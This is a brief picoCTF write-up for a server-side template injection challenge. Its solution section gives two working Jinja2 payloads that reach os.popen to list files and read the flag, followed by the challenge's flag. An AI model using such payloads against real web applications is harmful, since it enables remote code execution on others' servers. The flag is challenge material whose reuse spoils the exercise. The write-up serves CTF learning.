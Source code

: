 ## Descripción 
I made a cool website where you can announce whatever you want! Try it out!I heard templating is a cool and modular way to build web apps! Check out my website [here](http://rescued-float.picoctf.net:63636/)!
## Solución
{{request.application.__globals__.__builtins__.__import__('os').popen('ls -R').read()}}
{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag').read()}}

picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_4675f3fa}
## Notas Adicionales 
## Referencias
